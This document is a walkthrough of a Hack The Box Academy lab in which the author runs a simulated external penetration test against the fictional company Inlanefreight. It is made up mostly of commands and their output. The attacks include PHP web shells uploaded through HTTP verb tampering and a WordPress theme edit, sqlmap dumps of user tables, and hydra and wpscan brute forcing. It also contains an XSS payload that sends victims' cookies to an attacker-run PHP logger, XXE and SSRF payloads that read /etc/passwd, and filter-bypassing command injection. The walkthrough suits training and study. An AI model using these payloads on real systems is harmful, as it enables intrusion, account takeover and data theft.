

# [Attacking Enterprise Networks](https://academy.hackthebox.com/module/details/163)

## Table of Contents

- [x] External Testing
	- [x] External Information Gathering
	- [x] Service Enumeration and Exploitation
	- [x] Web Enumeration and Exploitation
	- [x] Initial Access

---
---

## External Testing

> Our client, Inlanefreight, has contracted our company, Acme Security, Ltd., to perform a full-scope External Penetration Test to assess their perimeter security. The customer has asked us to identify as many vulnerabilities as possible; therefore, evasive testing is not required. They would like to see what sort of access can be achieved by an anonymous user on the Internet. Per the Rules of Engagement (RoE), if we can breach the DMZ and gain a foothold into the internal network, they would like us to see how far we can take that access, up to and including Active Directory domain compromise. The client has not provided web application, VPN, or Active Directory user credentials. The following domain and network ranges are in scope for testing:

|**External Testing**|**Internal Testing**|
|---|---|
|10.129.x.x ("external" facing target host)|172.16.8.0/23|
|*.inlanefreight.local (all subdomains)|172.16.9.0/23|
||INLANEFREIGHT.LOCAL (Active Directory domain)|

---

### External Information Gathering

> The customer has provided the primary domain and internal networks but has not given specifics on the exact subdomains within this scope nor the "live" hosts we will encounter within the network. They would like us to perform discovery to see what type of visibility an attacker can gain against their external network (and internal if a foothold is achieved).

vHosts needed for these questions:
- `inlanefreight.local`

Questions:
1. Perform a banner grab of the services listening on the target host and find a non-standard service banner. Submit the name as your answer (format: `word_word_word`). `1337_*******`
2. Perform a DNS Zone Transfer against the target and find a flag. Submit the flag value as your answer (flag format: `HTB{ }`). `HTB{DNs_Z************}`
3. What is the FQDN of the associated subdomain? `flag.*******************`
4. Perform vhost discovery. What additional vhost exists? (one word). `monit*****`

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

[SNIP]

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.253  netmask 255.255.254.0  destination 10.10.15.253
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.229.147\tinlanefreight.local' | sudo tee -a /etc/hosts

10.129.229.147	inlanefreight.local
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -sS -p- inlanefreight.local -T5 --min-rate=10000

[SNIP]

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
143/tcp  open  imap
993/tcp  open  imaps
995/tcp  open  pop3s
8080/tcp open  http-proxy
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -sSV -p21,22,25,53,80,110,111,143,993,995,8080 inlanefreight.local -T5 --min-rate=10000

[SNIP]

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
53/tcp   open  domain   (unknown banner: 1337_*******) 📌
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp  open  pop3     Dovecot pop3d
111/tcp  open  rpcbind  2-4 (RPC #100000)
143/tcp  open  imap     Dovecot imapd (Ubuntu)
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp  open  ssl/pop3 Dovecot pop3d
8080/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```

#### DNS (port 53)

```
┌──(nabla㉿kali)-[~]
└─$ dig @inlanefreight.local inlanefreight.local axfr

[SNIP]

inlanefreight.local.	86400	IN	SOA	ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400
inlanefreight.local.	86400	IN	NS	inlanefreight.local.
inlanefreight.local.	86400	IN	A	127.0.0.1
blog.inlanefreight.local. 86400	IN	A	127.0.0.1
careers.inlanefreight.local. 86400 IN	A	127.0.0.1
dev.inlanefreight.local. 86400	IN	A	127.0.0.1
flag.*******************. 86400	IN	TXT	"HTB{DNs_Z************}" 📌
gitlab.inlanefreight.local. 86400 IN	A	127.0.0.1
ir.inlanefreight.local.	86400	IN	A	127.0.0.1
status.inlanefreight.local. 86400 IN	A	127.0.0.1
support.inlanefreight.local. 86400 IN	A	127.0.0.1
tracking.inlanefreight.local. 86400 IN	A	127.0.0.1
vpn.inlanefreight.local. 86400	IN	A	127.0.0.1
inlanefreight.local.	86400	IN	SOA	ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s -I http://inlanefreight.local/ -H 'Host: INVALIDVHOST.inlanefreight.local' | grep "Content-Length:"

Content-Length: 15157
```

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -u http://inlanefreight.local/ -H 'Host: FUZZ.inlanefreight.local' -ic -t 20 -fs 15157

[SNIP]

blog                    [Status: 200, Size: 8708, Words: 1509, Lines: 232, Duration: 22ms]
careers                 [Status: 200, Size: 51806, Words: 22041, Lines: 732, Duration: 45ms]
dev                     [Status: 200, Size: 2048, Words: 643, Lines: 74, Duration: 9ms]
gitlab                  [Status: 302, Size: 113, Words: 5, Lines: 1, Duration: 98ms]
ir                      [Status: 200, Size: 28548, Words: 2885, Lines: 210, Duration: 268ms]
monit***** 📌           [Status: 200, Size: 56, Words: 3, Lines: 4, Duration: 7ms] 
status                  [Status: 200, Size: 878, Words: 105, Lines: 43, Duration: 9ms]
support                 [Status: 200, Size: 26635, Words: 11730, Lines: 523, Duration: 11ms]
tracking                [Status: 200, Size: 35211, Words: 10413, Lines: 791, Duration: 31ms]
vpn                     [Status: 200, Size: 1578, Words: 414, Lines: 35, Duration: 9ms]
```

```
┌──(nabla㉿kali)-[~]
└─$ dig @inlanefreight.local inlanefreight.local axfr | grep -P "^\S+\.inlanefreight\.local" | awk '{print substr($1, 1, length($1)-1)}' > inlanefreight_subdomains.txt
```

```
┌──(nabla㉿kali)-[~]
└─$ echo 'monitoring.inlanefreight.local' >> inlanefreight_subdomains.txt
```

```
┌──(nabla㉿kali)-[~]
└─$ head -n 3 inlanefreight_subdomains.txt

blog.inlanefreight.local
careers.inlanefreight.local
dev.inlanefreight.local
```

```
┌──(nabla㉿kali)-[~]
└─$ for s in $(cat inlanefreight_subdomains.txt); do sudo bash -c "echo -e '10.129.229.147\t$s' >> /etc/hosts"; done
```

```
┌──(nabla㉿kali)-[~]
└─$ cat /etc/hosts

[SNIP]

10.129.229.147	inlanefreight.local
10.129.229.147	blog.inlanefreight.local
10.129.229.147	careers.inlanefreight.local
10.129.229.147	dev.inlanefreight.local
10.129.229.147	flag.inlanefreight.local
10.129.229.147	gitlab.inlanefreight.local
10.129.229.147	ir.inlanefreight.local
10.129.229.147	status.inlanefreight.local
10.129.229.147	support.inlanefreight.local
10.129.229.147	tracking.inlanefreight.local
10.129.229.147	vpn.inlanefreight.local
10.129.229.147	monitoring.inlanefreight.local
```

---

### Service Enumeration and Exploitation

> Our Nmap scans uncovered a few interesting services:
- Port 21: FTP
- Port 22: SSH
- Port 25: SMTP
- Port 53: DNS
- Port 80: HTTP
- Ports 110/143/993/995: imap and pop3
- Port 111: rpcbind

Questions:
1. Enumerate the accessible services and find a flag. Submit the flag value as your answer (flag format: `HTB{ }`). `HTB{0eb0a***************************}`

#### SSH (port 22)

```
┌──(nabla㉿kali)-[~]
└─$ nc -nv 10.129.229.147 22

(UNKNOWN) [10.129.229.147] 22 (ssh) open
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh admin@inlanefreight.local

admin@inlanefreight.local's password: 
Permission denied, please try again. ❌
```

#### SMTP (port 25)

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -sSVC -p25 inlanefreight.local -T5

[SNIP]

PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
Service Info: Host:  ubuntu
```

```
┌──(nabla㉿kali)-[~]
└─$ telnet inlanefreight.local 25

[SNIP]

220 ubuntu ESMTP Postfix (Ubuntu)
VRFY root
252 2.0.0 root
VRFY invaliduser
550 5.1.1 <invaliduser>: Recipient address rejected: User unknown in local recipient table
VRFY www-data
252 2.0.0 www-data
```

```
┌──(nabla㉿kali)-[~]
└─$ smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t inlanefreight.local -w 100

[SNIP]

######## Scan started at Sat Jun 28 07:16:04 2025 #########
inlanefreight.local: _apt exists
inlanefreight.local: backup exists
inlanefreight.local: bin exists

[SNIP]

inlanefreight.local: uucp exists
inlanefreight.local: uuidd exists
inlanefreight.local: www-data exists

######## Scan completed at Sat Jun 28 07:21:54 2025 #########
38 results.
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use auxiliary/scanner/smtp/smtp_enum; set RHOSTS inlanefreight.local; set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt; run"

[SNIP]

[*] 10.129.229.147:25     - 10.129.229.147:25 Banner: 220 ubuntu ESMTP Postfix (Ubuntu)
[+] 10.129.229.147:25     - 10.129.229.147:25 Users found: , _apt, backup, bin, daemon, dnsmasq, ftp, games, gnats, irc, landscape, list, lp, lxd, mail, man, messagebus, news, nobody, pollinate, postfix, postmaster, proxy, sshd, sync, sys, syslog, systemd-coredump, systemd-network, systemd-resolve, systemd-timesync, tcpdump, tss, usbmux, uucp, uuidd, www-data
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p25 --script=smtp-open-relay inlanefreight.local

[SNIP]

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server doesn't seem to be an open relay, all tests failed ❌
```

#### POP3(S) (port 110/995)

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -sSVC -p110,995 inlanefreight.local -T5

[SNIP]

PORT    STATE SERVICE  VERSION
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: UIDL AUTH-RESP-CODE TOP PIPELINING STLS CAPA SASL RESP-CODES

[SNIP]

995/tcp open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: UIDL AUTH-RESP-CODE TOP PIPELINING RESP-CODES CAPA SASL(PLAIN) USER

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ telnet inlanefreight.local 995

[SNIP]

USER root
Connection closed by foreign host. ❌
```

#### IMAP(S) (port 143/993)

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -sSVC -p143,993 inlanefreight.local -T5

[SNIP]

PORT    STATE SERVICE  VERSION
143/tcp open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: more IMAP4rev1 have post-login IDLE listed ID OK ENABLE SASL-IR LITERAL+ Pre-login capabilities LOGINDISABLEDA0001 STARTTLS LOGIN-REFERRALS

[SNIP]

993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: IMAP4rev1 more have IDLE AUTH=PLAINA0001 ID OK ENABLE SASL-IR LITERAL+ Pre-login post-login listed capabilities LOGIN-REFERRALS

[SNIP]
```

#### RPCBind (port 111)

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -sSVC -p111 inlanefreight.local -T5

[SNIP]

PORT    STATE SERVICE VERSION
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
```

```
┌──(nabla㉿kali)-[~]
└─$ rpcinfo inlanefreight.local

   program version netid     address                service    owner
    100000    4    tcp6      ::.0.111               portmapper superuser
    100000    3    tcp6      ::.0.111               portmapper superuser
    100000    4    udp6      ::.0.111               portmapper superuser
    100000    3    udp6      ::.0.111               portmapper superuser
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
```

#### FTP (port 21)

```
┌──(nabla㉿kali)-[~]
└─$ ftp anonymous@inlanefreight.local

[SNIP]

Password: 
230 Login successful.

ftp> ls
229 Entering Extended Passive Mode (|||45815|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 May 30  2022 flag.txt

ftp> get flag.txt
226 Transfer complete.

ftp> !cat flag.txt
HTB{0eb0a***************************} 📌
```

---

### Web Enumeration and Exploitation

> The quickest and most efficient way to get through a bunch of web applications is using a tool such as [EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness) to take screenshots of each web application. This is particularly helpful if we have a massive scope for our assessment and browsing each web application one at a time is not feasible. In our case, we have `11` subdomains/vhosts (for now), so it's worth firing up EyeWitness to help us out as we want to be as efficient as possible to give the client the best possible assessment. This means speeding up any tasks that can be performed `faster` and more efficiently `without the possibility of missing things`.

Questions:
1. Use the IDOR vulnerability to find a flag. Submit the flag value as your answer (flag format: `HTB{}`). `HTB{8f40e***************************}`
2. Exploit the HTTP verb tampering vulnerability to find a flag. Submit the flag value as your answer (flag format: `HTB{}`). `HTB{57c7f***************************}`
3. Exploit the WordPress instance and find a flag in the web root. Submit the flag value as your answer (flag format: `HTB{}`). `HTB{e7134***************************}`
4. Enumerate the "status" database and retrieve the password for the "Flag" user. Submit the value as your answer. `1fbea***************************`
5. Steal an admin's session cookie and gain access to the support ticketing queue. Submit the flag value for the "John" user as your answer. `HTB{1nS3cuR3_c00k135}`
6. Use the SSRF to Local File Read vulnerability to find a flag. Submit the flag value as your answer (flag format: `HTB{}`). `HTB{49f0b***************************}`
7. Register an account and log in to the Gitlab instance. Submit the flag value (flag format : `HTB{}`). `HTB{32596***************************}`
8. Use the XXE vulnerability to find a flag. Submit the flag value as your answer (flag format: `HTB{}`). `HTB{dbca4***************************}`
9. Use the command injection vulnerability to find a flag in the web root. Submit the flag value as your answer (flag format: `HTB{}`). `HTB{bdd8a***************************}`

```
┌──(nabla㉿kali)-[~]
└─$ eyewitness -f inlanefreight_subdomains.txt -d inlanefreight_subdomains_eyewitness
```


#### `blog.inlanefreight.local`


```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://blog.inlanefreight.local -v

[SNIP]

[ MetaGenerator ]
	String       : Drupal 9 (https://www.drupal.org)

[ Drupal ]
	Drupal is an opensource CMS written in PHP.
```

####  `careers.inlanefreight.local`


**Insecure Direct Object Reference (IDOR)**


#### `dev.inlanefreight.local`


```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://dev.inlanefreight.local/FUZZ -e .php -ic -t 100

[SNIP]

upload.php              [Status: 200, Size: 14, Words: 2, Lines: 2, Duration: 7ms]
uploads                 [Status: 301, Size: 336, Words: 20, Lines: 10, Duration: 7ms]
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s -I http://dev.inlanefreight.local/uploads/ | head -n 1

HTTP/1.1 200 OK
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s http://dev.inlanefreight.local/uploads/ | html2text

****** Index of /uploads ******
[[ICO]]       Name             Last_modified Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                 -  
===========================================================================
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s -I http://dev.inlanefreight.local/upload.php

HTTP/1.1 200 OK

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s http://dev.inlanefreight.local/upload.php

403 Forbidden
```

**HTTP Verb Tampering**


```
TRACK /upload.php HTTP/1.1
Host: dev.inlanefreight.local

[SNIP]

X-Custom-IP-Authorization: 127.0.0.1
```


```
┌──(nabla㉿kali)-[~]
└─$ echo '<?php system($_REQUEST["cmd"]); ?>' | tee shell.php

<?php system($_REQUEST["cmd"]); ?>
```


```
┌──(nabla㉿kali)-[~]
└─$ curl -s http://dev.inlanefreight.local/uploads/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s 'http://dev.inlanefreight.local/uploads/shell.php?cmd=find+/var/www/html+-type+f+-name+*.txt+2>+/dev/null'

/var/www/html/flag.txt
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s http://dev.inlanefreight.local/uploads/shell.php?cmd=cat+/var/www/html/flag.txt

HTB{57c7f***************************} 📌
```

#### `ir.inlanefreight.local`


```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://ir.inlanefreight.local -v

[SNIP]

[ MetaGenerator ]
	String       : WordPress 6.0

[ WordPress ]
	WordPress is an opensource blogging system commonly used as 
	a CMS.
```

```
┌──(nabla㉿kali)-[~]
└─$ wpscan --url http://ir.inlanefreight.local --enumerate ap --api-token=$API_TOKEN -t 100

[SNIP]

[+] mail-masta
 | Location: http://ir.inlanefreight.local/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/5136d5cf-43c7-4d09-bf14-75ff8b77bb44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10956
 |      - https://www.exploit-db.com/exploits/40290/
 |      - https://www.exploit-db.com/exploits/50226/
 |      - https://cxsecurity.com/issue/WLB-2016080220
```

```
┌──(nabla㉿kali)-[~]
└─$ searchsploit 'mail masta' --json | jq '.RESULTS_EXPLOIT[] | {Title, Codes, Path}'

[SNIP]

{
  "Title": "WordPress Plugin Mail Masta 1.0 - Local File Inclusion",
  "Codes": "",
  "Path": "/usr/share/exploitdb/exploits/php/webapps/40290.txt"
}
```

```
┌──(nabla㉿kali)-[~]
└─$ cat /usr/share/exploitdb/exploits/php/webapps/40290.txt

[+] Date: [23-8-2016]
[+] Autor Guillermo Garcia Marcos
[+] Vendor: https://downloads.wordpress.org/plugin/mail-masta.zip
[+] Title: Mail Masta WP Local File Inclusion
[+] info: Local File Inclusion

[SNIP]

Typical proof-of-concept would be to load passwd file:

http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

```
┌──(nabla㉿kali)-[~]
└─$ curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ wpscan --url http://ir.inlanefreight.local --enumerate u -t 100

[SNIP]

[i] User(s) Identified:

[+] ilfreightwp
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

```
┌──(nabla㉿kali)-[~]
└─$ wpscan --url http://ir.inlanefreight.local -P /usr/share/wordlists/rockyou.txt -U ilfreightwp 

[SNIP]

[+] Performing password attack on Xmlrpc against 1 user/s

[!] Valid Combinations Found:
 | Username: ilfreightwp, Password: password1
```


```php
<?php system($_GET['cmd']); ?>
```

```
┌──(nabla㉿kali)-[~]
└─$ curl curl http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
┌──(nabla㉿kali)-[~]
└─$ curl 'http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?cmd=ls+-la+/var/www/html'

total 248
drwxr-xr-x  5 www-data www-data  4096 Jun 21  2022 .
drwxr-xr-x  1 root     root      4096 May 28  2022 ..
-rw-r--r--  1 www-data www-data   523 May 30  2022 .htaccess
-rw-r--r--  1 www-data www-data    38 Jun 21  2022 flag.txt

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ curl 'http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?cmd=cat+/var/www/html/flag.txt'

HTB{e7134abea7438e937b87608eab0d979c}
```

#### `status.inlanefreight.local`


```sql
'
```


**SQL Injection**

```sql
' OR 1=1 -- -
```


```
┌──(nabla㉿kali)-[~]
└─$ sqlmap --url=http://status.inlanefreight.local -X POST --data='searchitem=test*' --batch

[SNIP]

sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=fedex' AND 1161=1161#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=fedex' AND GTID_SUBSET(CONCAT(0x716b6a7671,(SELECT (ELT(6568=6568,1))),0x7171707871),6568)-- XYoN

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=fedex' AND (SELECT 8682 FROM (SELECT(SLEEP(5)))Ozww)-- DbqC

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=fedex' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b6a7671,0x527943534a62546663584d6c4b47475278534872526579775a6946434e58696d6f77446446484a69,0x7171707871)#
---

[SNIP]

[08:45:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.6
```

```
┌──(nabla㉿kali)-[~]
└─$ sqlmap --url=http://status.inlanefreight.local -X POST --data='searchitem=test*' --batch --dbms=mysql --dbs

[SNIP]

[08:53:28] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] status
[*] sys
```

```
┌──(nabla㉿kali)-[~]
└─$ sqlmap --url=http://status.inlanefreight.local -X POST --data='searchitem=test*' --batch --dbms=mysql -D status --tables

[SNIP]

[08:54:01] [INFO] fetching tables for database: 'status'
Database: status
[2 tables]
+---------+
| company |
| users   |
+---------+
```

```
┌──(nabla㉿kali)-[~]
└─$ sqlmap --url=http://status.inlanefreight.local -X POST --data='searchitem=test*' --batch --dbms=mysql --dump --no-cast -D status -T users --threads=10

[SNIP]

Database: status
Table: users
[2 entries]
+----+--------------------------------------+----------+
| id | password                             | username |
+----+--------------------------------------+----------+
| 1  | 4528342e54d6f8f8cf15bf6e3c31bf1f6    | Admin    |
| 2  | 1fbea**************************** 📌 | Flag     |
+----+--------------------------------------+----------+
```

#### `support.inlanefreight.local`


```
┌──(nabla㉿kali)-[~]
└─$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

**Cross-Site Scripting (XSS)**

```http
GET /ticket.php?Name="><script+src=http://10.10.14.204:8000/test_name></script>&Email=test%40mail.com&Phone+Number=1234567890&Product="><script+src=http://10.10.14.204:8000/test_product></script>&os=win&browser=firefox&message="><script+src=http://10.10.14.204:8000/test_message></script>&ttype=feature HTTP/1.1
Host: support.inlanefreight.local

[SNIP]
```


```
[CONTINUE]

10.129.71.63 - - [30/Jun/2025 03:58:30] code 404, message File not found
10.129.71.63 - - [30/Jun/2025 03:58:30] "GET /test_message HTTP/1.1" 404 -
```

```
┌──(nabla㉿kali)-[~]
└─$ vim index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```
┌──(nabla㉿kali)-[~]
└─$ vim script.js

new Image().src='http://10.10.14.204:8000/index.php?c='+document.cookie
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo php -S 0.0.0.0:8000

[Mon Jun 30 04:05:55 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```javascript
"><script src=http://10.10.14.204:8000/script.js></script>
```

```
[CONTINUE]

[Mon Jun 30 04:07:31 2025] 10.129.71.63:47584 Accepted
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47584 [200]: GET /script.js
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47584 Closing
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47586 Accepted
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47586 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47586 Closing
```




#### `tracking.inlanefreight.local`


**Server-Side Request Forgery (SSFR)**

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){  
document.write(this.responseText)};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

```javascript
<script>x=new+XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```


```javascript
<script>x=new+XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///flag.txt");x.send();</script>
```


#### `vpn.inlanefreight.local`


#### `gitlab.inlanefreight.local`


#### `shopdev2.inlanefreight.local`


```yaml
credentials:
    username: admin
    password: 'admin'    
    host: shopdev2.inlanefreight.local
```


**XML External Entity (XXE) Injection**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><subtotal>undefined</subtotal><userid>&xxe;</userid></root>
```


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root><subtotal>undefined</subtotal><userid>&xxe;</userid></root>
```


#### `monitoring.inlanefreight.local`


**Login Brute Forcing**


```
┌──(nabla㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt monitoring.inlanefreight.local http-post-form "/login.php:username=admin&password=^PASS^:F=Invalid Credentials!" -f -t 50

[SNIP]

[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
```

```yaml
credentials:
    username: admin
    password: 12qwaszx
    host: monitoring.inlanefreight.local
```


**Command Injection**


```bash
%0a'i'd
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'd"

[SNIP]

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

```bash
%0a'p'wd
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'p'wd"

[SNIP]

/var/www/html/monitoring
```

```bash
%0a'l's
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'l's"

[SNIP]

00112233_flag.txt
css
img
index.php
js
login.php
ping.php
```

```bash
%0a'c'at%0900112233_flag.txt
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'c'at%0900112233_flag.txt"

[SNIP]

HTB{bdd8a***************************} 📌
```

---

### Initial Access

> Now that we've thoroughly enumerated and attacked the external perimeter and uncovered a wealth of findings, we're ready to shift gears and focus on obtaining stable internal network access. Per the SoW document, if we can achieve an internal foothold, the client would like us to see how far we can go up to and including gaining `Domain Admin level access`.

Questions:
